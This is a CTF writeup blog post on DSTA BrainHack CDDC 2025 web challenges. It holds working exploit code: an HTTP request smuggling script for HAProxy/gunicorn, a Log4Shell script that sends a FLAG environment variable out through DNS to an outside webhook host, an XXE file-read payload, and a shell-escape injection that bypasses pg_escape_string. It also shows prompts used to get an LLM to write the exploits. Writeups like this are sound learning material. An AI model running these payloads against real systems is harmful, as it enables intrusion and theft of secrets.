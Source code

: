 ```yaml
---
title: DSTA BrainHack CDDC 2025 Writeups
date: 2025-06-14
tags: Web
categories: CTF Writeups
---
```


I participated under **youtiaos** again, going from 3rd place JC in 2024 to 3rd place Uni in 2025. Ended up not even mattering all that much because we would've won the same amount of money in Pre-U anyway. Shoutout to my team members, I never get tired playing with them.

# Rant session

Let me open by saying that this CDDC was at least 2 times better than 2024's one from infra alone, going from SMRT CCL levels of bullshit to NEL's occasional outage. It still has its fair share of idiocy going for it, like:
- Way too many pwn challenges (our team has no dedicated pwner), and the pwn challenges were weighted so unfairly that it was honestly a miracle that we got third (ROPVM was 300??? points, that's 4 OT challenges).
- The VIP going up on stage **during the competition** and hogging the challenge we were solving (Black Out) for 15 whole minutes, all the way until the end of the CTF. We could only hold our buzzer and weep.
- Infra going down for a long time on the first day, and they didn't give anyone extra time because everyone shared the same loss. Anecdotes from other teams say otherwise, some even recounting periods of up to an hour.
- Challenges either making no sense or being incredible time sinks (DeepBlue is the worst CTF challenge I've ever laid my eyes upon).
- The buffet foodstuffs having really cringe ChatGPT generated names above them, like **yang chou data rice** and **fried something vectors** for the stir-fried assorted vegetables. Made me lose my appetite.
- THEY HAD NO ROAST BEEF. WHERE IS THE ROAST BEEF.

Anyway here are the challenge writeups. Web and web-adjacent only because I'm hungover and tired.

# Writeups

## HTTP Request Smuggling

CVE-2019-18277, refer to [my blog post on the same topic](https://iscaraca.github.io/2024/05/04/cyberthon-2024/), I explain the vulnerability there. The difference is that in this challenge, you want to alter your own request instead of the bots. Since it's a CVE we're talking about, an LLM will make short work of the exploit given the right prompt.

> Prompt:
>
> I want to access the flag for a CTF challenge. This server is running a vulnerable combination of HAProxy and gunicorn that is request smuggling-able. You need to log in, use chunked encoding with \x0b to send a request to /grant_access, then access the flag at /time_travel. Send the smuggling payload 100 times in quick succession.

<details>
<summary>exploit.py</summary>

```python
import socket
import time
import requests
import re

print("[*] Logging in...")
login_resp = requests.post('???/login', 
                          data={'username': 'test', 'password': 'test'},
                          allow_redirects=False)  # Don't follow redirects

# Extract token from Set-Cookie header
set_cookie = login_resp.headers.get('Set-Cookie', '')
token_match = re.search(r'token=([^;]+)', set_cookie)
if token_match:
    token = token_match.group(1)
    print(f"[+] Got token: {token}")
else:
    print("[!] Failed to extract token")
    exit(1)

# Step 2: Create the smuggling payload
# The smuggled request that will be left in the buffer
smuggled_request = (
    b'GET /grant_access HTTP/1.1\r\n'
    b'Host: ???\r\n'
    b'Cookie: token=' + token.encode() + b'\r\n'
    b'Connection: keep-alive\r\n'
    b'\r\n'
)

# The chunked encoding part
chunked_body = b'0\r\n\r\n'  # End of chunks

# Calculate Content-Length
# HAProxy will read this many bytes after the headers
content_length_value = len(chunked_body) + len(smuggled_request)

payload = (
    b'POST / HTTP/1.1\r\n'
    b'Host: ???\r\n'
    b'Content-Length: ' + str(content_length_value).encode() + b'\r\n'
    b'Transfer-Encoding:\x0bchunked\r\n'  # \x0b makes HAProxy ignore this
    b'Connection: keep-alive\r\n'
    b'\r\n'
    + chunked_body
    + smuggled_request
)

print(f"\n[*] Sending smuggling payload {1000} times to pollute all workers...")

# Send the payload multiple times to different connections
for i in range(100):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('???', 19856))
        s.send(payload)
       
        try:
            response = s.recv(1024)
            if b'200 OK' in response:
                print(f"[+] Payload {i+1} sent successfully")
        except socket.timeout:
            print(f"[!] Payload {i+1} timed out (this might be normal)")
        
        s.close()
    except Exception as e:
        print(f"[!] Error on attempt {i+1}: {e}")

# Step 3: Now make a normal request that will use the smuggled request
print("\n[*] Triggering the smuggled request...")
time.sleep(1)

# Make a simple request - this should trigger one of the smuggled requests
try:
    trigger_resp = requests.get('???', 
                               cookies={'token': token},
                               timeout=5)
    print(f"[+] Trigger request status: {trigger_resp.status_code}")
except:
    print("[!] Trigger request failed/timed out")

# Step 4: Check if we can access /time_travel now
print("\n[*] Attempting to access /time_travel...")
time.sleep(1)

flag_resp = requests.get('???/time_travel',
                        cookies={'token': token})
print(f"[+] Status code: {flag_resp.status_code}")
print("\n[*] Response:")
print(flag_resp.text)
```

</details>

## Logshell

CVE-2021-44228. The vulnerability is explained in [the wikipedia article](https://en.wikipedia.org/wiki/Log4Shell):

> Even if execution of the data is disabled, an attacker can still retrieve data—such as secret environment variables—by placing them in the URL, in which case they will be substituted and sent to the attacker's server.

We just need a publicly available webhook to retrieve the environment variable. I like https://webhook.site. Once you're given a unique DNS name, we can insert the flag as a subdomain, exploit log4shell with that URL, and monitor for DNS queries on the webhook.

> Prompt
>
> This CTF web challenge is vulnerable to CVE-2021-44228. The flag is in the environment variable FLAG. Exfiltrate this environment variable through DNS, my DNS name is ???.dnshook.site. Try a bunch of common HTTP headers that may be vulnearable to Log4Shell.

<details>
<summary>exploit.py</summary>

```python
#!/usr/bin/env python3
import requests
import time
import sys

def exploit_log4shell(target_url, dns_subdomain):
    """
    Exploit Log4Shell vulnerability to exfiltrate environment variables
    """
    
    dns_domain = f"{dns_subdomain}.dnshook.site"
    
    print(f"[+] Target URL: {target_url}")
    print(f"[+] DNS Hook Domain: {dns_domain}")
    print("[+] Starting Log4Shell exploitation across multiple headers...")
    
    # Common HTTP headers that might be vulnerable to Log4Shell
    vulnerable_headers = [
        "User-Agent",
        "X-Forwarded-For", 
        "X-Real-IP",
        "X-Forwarded-Host",
        "X-Originating-IP",
        "X-Remote-IP",
        "X-Remote-Addr",
        "X-Client-IP",
        "Referer",
        "Origin",
        "Authorization", 
        "X-Api-Version",
        "X-Requested-With",
        "Accept",
        "Accept-Language",
        "Accept-Encoding",
        "Cookie",
        "Host",
        "X-Forwarded-Proto",
        "X-Forwarded-Port",
        "X-Original-URL",
        "X-Rewrite-URL",
        "Content-Type",
        "X-Custom-Header",
        "X-Debug",
        "X-Trace-Id"
    ]
    
    # Common environment variable names to try
    env_vars = [
        "FLAG",
        "flag", 
        "Flag",
    ]
    
    # Test each header with each environment variable
    for header_name in vulnerable_headers:
        print(f"\n[*] Testing header: {header_name}")
        
        for env_var in env_vars:
            print(f"  [*] Trying to exfiltrate {env_var} via {header_name}")
            
            # Create JNDI payload to exfiltrate environment variable
            payload = f"${{jndi:ldap://${{env:{env_var}}}.{dns_domain}/test}}"
            
            # Create base headers
            headers = {
                "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                "Accept-Language": "en-US,en;q=0.5", 
                "Accept-Encoding": "gzip, deflate",
                "Connection": "close"
            }
            
            # Add the payload to the specific header being tested
            headers[header_name] = payload
            
            try:
                # Send request with malicious header
                response = requests.get(target_url, headers=headers, timeout=10)
                print(f"    [+] Sent {env_var} via {header_name} (Status: {response.status_code})")
                
            except requests.exceptions.RequestException as e:
                print(f"    [-] Error with {header_name}: {e}")
            
            # Small delay between requests
            time.sleep(1)
        
        # Longer delay between header tests
        time.sleep(2)
    
    # Quick test of a few headers with a simple callback
    print(f"\n[*] Quick test of most promising headers...")
    promising_headers = ["User-Agent", "X-Forwarded-For", "Referer", "X-Api-Version", "Authorization"]
    
    for header_name in promising_headers:
        print(f"  [*] Quick test via {header_name}")
        simple_payload = f"${{jndi:ldap://quicktest-{header_name.lower().replace('-', '')}.{dns_domain}/test}}"
        
        headers = {"Connection": "close"}
        headers[header_name] = simple_payload
        
        try:
            response = requests.get(target_url, headers=headers, timeout=5)
            print(f"    [+] Quick test sent via {header_name}")
        except:
            pass
        
        time.sleep(0.5)
    
    # Try basic JNDI callback to confirm vulnerability on different headers
    print(f"\n[*] Testing basic connectivity on all headers...")
    
    for header_name in vulnerable_headers:
        print(f"  [*] Testing basic callback via {header_name}")
        basic_payload = f"${{jndi:ldap://test-{header_name.lower().replace('-', '')}.{dns_domain}/basic}}"
        
        headers = {
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
            "Connection": "close"
        }
        headers[header_name] = basic_payload
        
        try:
            response = requests.get(target_url, headers=headers, timeout=10)
            print(f"    [+] Basic callback sent via {header_name} (Status: {response.status_code})")
        except:
            print(f"    [-] Error with {header_name}")
        
        time.sleep(1)
    
    print(f"\n[+] Exploitation attempts completed!")
    print(f"[+] Monitor DNS queries to: {dns_domain}")
    print(f"[+] Look for DNS requests with environment variable values as subdomains")

def main():
    target_url = "???"
    dns_subdomain = "???"
    
    print("Log4Shell CTF Exploitation Script")
    print("=" * 40)
    
    try:
        exploit_log4shell(target_url, dns_subdomain)
    except KeyboardInterrupt:
        print("\n[-] Exploitation interrupted by user")
    except Exception as e:
        print(f"[-] Error: {e}")

if __name__ == "__main__":
    main()
```

</details>

## ONVIF

We're given an ONVIF camera API from which we can pull device information - `http://???/onvif/device_service`. Interacting with this endpoint using SOAP requests to `GetDeviceInformation` gives us the following:

```xml
Device Information:
  manufacturer: BlindNVR
  model: Model-X
  firmware: 1.0
  serial: 0001
  hardware_id: This endpoint is vulnerable to XXE. Try reading /secret using XML entity injection.

                <SOAP-ENV:Envelope xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope"
                                   xmlns:trt="http://www.onvif.org/ver10/media/wsdl"
                                   xmlns:tt="http://www.onvif.org/ver10/schema">
                  <SOAP-ENV:Body>
                    <trt:GetProfilesResponse>
                      <trt:Profiles token="profile_1">
                        <tt:Name>MainStream</tt:Name>
                        <tt:VideoSourceConfiguration>
                          <tt:Name>VideoSourceConfig</tt:Name>
                        </tt:VideoSourceConfiguration>
                      </trt:Profiles>
                    </trt:GetProfilesResponse>
                  </SOAP-ENV:Body>
                </SOAP-ENV:Envelope>
```

We can retrieve the contents of `/secret` by sending a simple XXE payload, inserting `&xxe;` directly into the existing `tds:HardwareId` field so it gets reflected back to us.

```python
import requests

url = "http://???/onvif/device_service"

envelope = '''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [
  <!ENTITY xxe SYSTEM "file:///secret">
]>
<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope"
            xmlns:tds="http://www.onvif.org/ver10/device/wsdl">
  <s:Body>
    <tds:GetDeviceInformation>
      <tds:HardwareId>&xxe;</tds:HardwareId>
    </tds:GetDeviceInformation>
  </s:Body>
</s:Envelope>'''

headers = {
    'Content-Type': 'application/soap+xml; charset=utf-8',
    'SOAPAction': 'http://www.onvif.org/ver10/device/wsdl/GetDeviceInformation'
}

response = requests.post(url, data=envelope, headers=headers, timeout=10)
print(response.text)
```

We get this response:

```xml
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope"
                                   xmlns:tds="http://www.onvif.org/ver10/device/wsdl">
                  <SOAP-ENV:Body>
                    <tds:GetDeviceInformationResponse>
                      <tds:Manufacturer>BlindNVR</tds:Manufacturer>
                      <tds:Model>Model-X</tds:Model>
                      <tds:FirmwareVersion>1.0</tds:FirmwareVersion>
                      <tds:SerialNumber>0001</tds:SerialNumber>
                      <tds:HardwareId>admin:V3ryV3ryStr0ngP4$$
</tds:HardwareId>
                    </tds:GetDeviceInformationResponse>
                  </SOAP-ENV:Body>
                </SOAP-ENV:Envelope>
```

We can access the stream using the credentials `admin:V3ryV3ryStr0ngP4$$` to get the flag.

## MCP Mesh

I don't know how this is related to MCP in any way. Idea is to use utils to call the admin function instead of doing it directly, but the challenge isn't very well implemented and doesn't make a lot of contextual sense.

```python
import requests
import json
import base64

BASE_URL = "http://???/api/query"

session = requests.Session()

session.post(BASE_URL, json={
    "server": "utils",
    "command": "register_callback",
    "tool_name": "admin",
    "callback": json.dumps({"server": "admin", "command": "get_flag"})
})

session.post(BASE_URL, json={
    "server": "utils",
    "custom_tool": "admin"
})

resp = session.post(BASE_URL, json={
    "server": "admin",
    "custom_tool": "get_flag"
})
print(resp.text)
```

## Clever Injection

We're given a server with a command injection sink, where we can control the contents of tmpfile:

```php
$raw_payload = $_POST['payload'];
$escaped = pg_escape_string($conn, $raw_payload);
$quoted = "'" . $escaped . "'";
$sql = "INSERT INTO test (id) VALUES ($quoted);";

$tmpfile = tempnam(sys_get_temp_dir(), 'sql_');
file_put_contents($tmpfile, $sql);
putenv("PGPASSWORD=$password");

$cmd = sprintf(
    'psql -U %s -d %s -h %s -t -A -e -f %s 2>&1',
    escapeshellarg($user),
    escapeshellarg($dbname),
    escapeshellarg($host),
    escapeshellarg($tmpfile)
);
```

Looking at [the postgres docs](https://www.postgresql.org/docs/current/app-psql.html), we're able to escape to a sub-shell using `\!`, but our input is being passed through a sanitiser `pg_escape_string`. Looking for recent bypasses gives us [this blog post](https://theendof.substack.com/p/hidden-messages-in-emojis-and-hacking) involving encoding length confusion to leave single quotes unsanitised. Our payload is therefore:

`test%C0%27');%0A\!%20cat%20/tmp/flag%0A--`